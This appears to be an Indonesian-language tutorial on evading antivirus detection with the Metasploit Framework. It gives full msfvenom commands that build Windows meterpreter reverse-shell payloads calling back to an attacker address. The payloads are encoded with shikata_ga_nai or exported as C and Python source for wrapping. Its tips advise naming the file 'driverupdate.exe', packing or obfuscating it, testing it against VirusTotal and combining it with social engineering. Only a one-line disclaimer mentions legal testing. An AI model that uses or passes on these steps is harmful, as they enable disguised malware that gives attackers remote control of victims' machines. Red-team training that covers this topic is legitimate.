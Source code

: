 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV |
| `Packing` / `Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode` |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

**Keterangan:**
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)

**Encoder Populer di Metasploit:**
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

**Cek semua encoder:**

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
```

**Keterangan:**
- `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST` : IP Attacker: `192.168.1.100`
- `LPORT` : Port listener: `4444`
- `-f` : Format payload: `c`
- `-o` : Nama file hasil payload: `payload.c`

  
Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
```

**Keterangan:**
- `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST` : IP Attacker: `192.168.1.100`
- `LPORT` : Port listener: `4444`
- `-f` : Format payload: `python`
- `-o` : Nama file hasil payload: `payload.py`
  
Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |
